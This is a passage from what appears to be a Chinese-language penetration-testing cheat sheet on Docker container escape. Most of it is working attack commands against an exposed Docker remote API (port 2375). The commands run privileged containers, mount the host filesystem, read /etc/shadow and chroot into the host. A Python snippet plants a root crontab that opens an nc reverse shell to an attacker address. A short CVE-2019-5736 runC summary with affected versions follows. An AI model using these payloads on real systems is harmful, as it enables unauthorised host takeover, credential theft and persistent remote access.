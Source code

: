 - POC | Payload | exp
    - `http://[ip]:2375/version`
        ```bash
        docker -H tcp://[IP]:2375 version
        docker -H tcp://[IP]:2375 ps

        docker -H tcp://[IP] run -it --privileged=true busybox sh
        fdisk -l
        mkdir /aaa
        mount /dev/dm-0 /aaa

        或

        docker -H tcp://xx.xx.xx.xx:2375 run -it -v /:/mnt busybox sh
        cd /mnt
        ls

        或

        docker -H <host>:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
        cat /mnt/etc/shadow
        chroot /mnt

        # 拿下后直接写 crontab 即可
        ```
    - [netxfly/docker-remote-api-exp](https://github.com/netxfly/docker-remote-api-exp)
    - [Tycx2ry/docker_api_vul](https://github.com/Tycx2ry/docker_api_vul)
    - [docker daemon api 未授权访问漏洞](https://github.com/vulhub/vulhub/blob/master/docker/unauthorized-rce/README.zh-cn.md)
        ```py
        import docker

        client = docker.DockerClient(base_url='http://your-ip:2375/')
        data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc 反弹地址 反弹端口 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
        ```

---

### 容器服务缺陷引起

**CVE-2019-5736 漏洞逃逸**
- 概述

    Docker、containerd 或者其他基于 runc 的容器在运行时存在安全漏洞，runC 是用于创建和运行 Docker 容器的 CLI 工具,runC 18.09.2版本前的 Docker 允许恶意容器覆盖宿主机上的 runC 二进制文件。攻击者可以通过特定的容器镜像或者 exec 操作获取到宿主机 runc 执行时的文件句柄并修改掉 runc 的二进制文件，从而获取到宿主机的 root 执行权限。

- 影响版本
    - Docker Version < 18.09.2
    - runC Version <= 1.0-rc6

- 相关文章
    - [Breaking out of Docker via runC - Explaining CVE-2019-5736](https://unit42.paloaltonetworks.com/breaking-docker-via-runc-explaining-cve-2019-5736/)

